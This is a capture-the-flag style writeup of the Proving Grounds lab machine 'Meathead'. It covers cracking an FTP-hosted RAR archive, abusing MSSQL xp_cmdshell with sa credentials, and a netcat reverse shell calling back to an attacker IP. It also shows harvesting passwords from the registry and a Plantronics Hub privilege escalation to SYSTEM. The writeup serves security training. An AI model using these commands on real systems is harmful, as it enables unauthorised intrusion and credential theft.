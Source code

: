 ```yaml
---
description: Writeup for Meathead from Offensive Security Proving Grounds (PG)
---
```


# Meathead

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.75.70 -t full`

![](../../.gitbook/assets/605561df97f64596b04a92974b9a0ac1.png)

`nmapAutomator.sh -H 192.168.75.70 -t vulns`

### HTTP \(80\)

![](../../.gitbook/assets/1f279e31ab6d46899ec3ecaa557b7da5.png)

Tried:

* SQL Injection

### SMB \(139/445\)

Tried:

* Null sessions

### FTP \(1221\)

* Without using passive mode, hangs on `150 Opening ASCII mode data connection`

![](../../.gitbook/assets/be3a0fe5112d4f1e990ca139668517d2.png)

* Using the `-p` parameter to force passive mode: `ftp -p 192.168.75.70 1221`

![](../../.gitbook/assets/4996bd333b6149b398c9b605c9b3312e.png)

The `MSSQL_BAK.rar` looks interesting. It is password protected.

Extract the RAR hash: `rar2john MSSQL_BAK.rar > crackme`

Crack the hash: `john --wordlist=/usr/share/wordlists/rockyou.txt crackme`

![](../../.gitbook/assets/be05f5aa3597411985b54766b63a2732.png)

We find the password `letmeinplease`.

Unrar the file: `unrar e MSSQL_BAK.rar`

![](../../.gitbook/assets/fef40f15c15949d39d59d7cc6bd8c623.png)

Inside the archive is a text file.

![](../../.gitbook/assets/bcac23cee86b494f93ef89be31b4837c.png)

The credentials are `sa:EjectFrailtyThorn425`.

### MSSQL \(1435\)

Using the previously found credentials, login using `mssqlclient.py`.

`mssqlclient.py -p 1435 sa:EjectFrailtyThorn425@192.168.217.70`

## Exploitation

Once in, we can enable code execution using the `enable_xp_cmdshell` command.

Then, execute a command: `xp_cmdshell whoami /all`

![](../../.gitbook/assets/297d64d77c6d4e5eb204424014a897f0.png)

Transfer `nc.exe` to a writable directory:

`xp_cmdshell copy \\192.168.49.217\ROPNOP\nc.exe c:\Users\Public\nc.exe`

Then, trigger a reverse shell \(try a few common ports, port 80 works in this case\):

`xp_cmdshell c:\Users\Public\nc.exe -e cmd.exe 192.168.49.217 80`

Unfortunately we don't have access to `local.txt` just yet.

![](../../.gitbook/assets/e9b6a8ecb65f47859546a3a00267abc7.png)

Using `reg query HKLM /f pass /t REG_SZ /s`, we find an interesting password.

![](../../.gitbook/assets/bf796dbfd552403f95a5201e9f2bbdc1.png)

Using the credentials `jane:TwilightAirmailMuck234`, we can RDP in as Jane.

![](../../.gitbook/assets/68c1274ba7dc42ff94543a6045b0ad50.png)

## Privilege Escalation

On Desktop we find a Platronics Hub app \(version 3.13.2\)

![](../../.gitbook/assets/769fd95617364c6bbd4383f512c466de.png)

This version suffers from a local privilege escalation vulnerability: `https://www.exploit-db.com/exploits/47845`

Create a `MajorUpgrade.config` with the following contents:

```text
jane|advertise|C:\Windows\System32\cmd.exe
```

Upon saving this file, we get a SYSTEM shell.

![](../../.gitbook/assets/9cb912ba5a9a47849133f918ac7b380e.png)

![](../../.gitbook/assets/23527fd64be54d63a0972e5317d20f5d.png)

